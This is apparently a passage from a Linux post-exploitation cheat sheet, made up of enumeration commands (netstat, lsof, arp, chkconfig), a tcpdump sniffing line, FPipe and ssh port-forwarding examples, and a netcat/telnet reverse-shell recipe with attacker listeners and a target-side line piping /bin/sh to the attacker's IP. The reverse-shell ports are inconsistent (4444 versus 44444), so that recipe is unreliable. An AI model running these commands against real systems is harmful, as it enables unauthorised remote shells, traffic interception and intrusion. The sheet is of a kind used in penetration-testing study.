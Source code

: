 `lsof -i :80`

`grep 80 /etc/services`

`netstat -antup`

`netstat -antpx`

`netstat -tulpn`

`chkconfig --list`

`chkconfig --list | grep 3:on`

`last`

`w`

#

**Whats cached? IP and/or MAC addresses**

`arp -e`

`route`

`/sbin/route -nee`


**Is packet sniffing possible? What can be seen? Listen to live traffic**

#

`tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21`

**_Note: tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]_**

#

**Have you got a shell? Can you interact with the system?**

`nc -lvp 4444`    **Attacker. Input (Commands)**

`nc -lvp 4445`    **# Attacker. Ouput (Results)**

`telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445`    **On the targets system. Use the attackers IP!**

**_Note: http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/_**

#

**Is port forwarding possible? Redirect and interact with traffic from another view**

**_Note: http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch_**

**_Note: http://downloadcenter.mcafee.com/products/tools/foundstone/fpipe2_1.zip_**

**_Note: FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]_**

`FPipe.exe -l 80 -r 80 -s 80 192.168.1.7`

**_Note: ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]_**

`ssh -L 8080:127.0.0.1:80 root@192.168.1.7` **Local Port**
